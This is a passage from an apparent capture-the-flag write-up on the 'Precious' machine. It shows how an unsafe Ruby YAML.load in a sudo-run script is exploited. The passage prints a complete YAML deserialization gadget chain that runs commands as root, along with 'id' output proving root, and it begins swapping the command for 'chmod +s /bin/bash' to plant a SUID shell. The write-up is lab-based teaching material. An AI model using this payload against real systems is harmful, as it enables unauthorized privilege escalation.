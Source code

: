 On closely viewing the code, I found out that the code was using `YAML load()`

Now, if you google a lil bit about `Yaml load()` issues, you'll find out that it is vulnerable to `YAML Deserialization Attack`. You can read more about `YAML Deserialization Attacks` [here](https://github.com/DevComputaria/KnowledgeBase/blob/master/pentesting-web/deserialization/python-yaml-deserialization.md)

So, after reading the `how to exploit YAML Deserialiaztion vulnerabilities`, I found out that we need to craft a payload inside a `yml` file called `dependencies.yml`. Using the following payload, I created the file in `/henry` directory, changing the `git_set` to `id`, to check if the exploit is actually working.

```rb
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

I created the `dependencies.yml` and copy pasted the paylaod inside the file.

![pr-6](https://user-images.githubusercontent.com/87711310/215254245-24802f13-5552-4ff5-87af-f4c4964c9467.png)

Now, I ran the file and we got back the results!!

```
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
...
```

You might get a `traceback` error but it doesn't matter as we got back out results and can confirm that this exploit is working.

So, now I went on and changed the `git_set: "id"` command to `git_set: "chmod +s /bin/bash"`

```
henry@precious:~$ nano dependencies.yml 
henry@precious:~$ cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
```